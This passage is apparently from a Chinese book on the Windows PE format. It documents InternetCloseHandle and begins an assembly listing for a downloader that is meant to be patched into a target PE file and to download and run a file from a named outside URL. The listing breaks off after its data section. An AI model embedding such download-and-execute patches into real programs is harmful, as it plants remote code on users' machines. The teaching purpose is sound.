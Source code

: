 ### 7.函数`InternetCloseHandle`

==该函数用于关闭已打开的Internet文件==。完整定义如下：

------

```cpp
BOOL InternetCloseHandle(
	__in HINTERNET hInternet	//要关闭的文件句柄
);
```

------

函数参数解释如下：

1）`hInternet`：要关闭的文件句柄。

2）返回值：如果成功关闭，则返回TRUE；否则返回FALSE，表示关闭失败。

## 17.1.2　补丁功能的预演代码

==如果直接编写补丁程序，需要通过补丁工具将补丁程序嵌入到目标PE文件中才能进行测试，这种方法不利于对程序的调试和纠错；因此，对于相对复杂的补丁程序的编写，应该先从它的功能代码开始==。方法是编写一个简单的功能预演代码，该预演代码能够实现补丁程序应具备的所有功能；通过对预演代码的调试，能及时方便地发现代码中存在的错误并改正。当所有代码逻辑都没有问题以后，再着手编写补丁程序。代码清单17-1是实现目标补丁的功能代码（注意，这不是补丁程序）。

代码清单17-1　网络下载器的补丁程序预演版（chapter17\a\download.asm）

------

```assembly
;------------------------
; 下载器（该源代码为功能测试版）
; 未达到补丁要求，请按照补丁规则自行编写
; 戚利
; 2011.2.25
;------------------------
    .386
    .model flat,stdcall
    option casemap:none

include    windows.inc
include    user32.inc
includelib user32.lib
include    kernel32.inc
includelib kernel32.lib
include    wininet.inc  
includelib wininet.lib  
    .code
jmp start

szText         db 'HelloWorld',0
lpCN           db 256 dup(0)
lpDWFlag       dd  ?
szTempPath     db '.',0
szAppName      db 'Shell',0
lpszURL        db 'http://www.jntljdx.com/downloadfile/gz.doc',0
hInternet      dd ?
hInternetFile  dd ?
hThreadID      dd ?

;代码段
    .code

;-----------------------
; 线程函数，下载并运行
; 参数_lpURL指向要下载的文件
```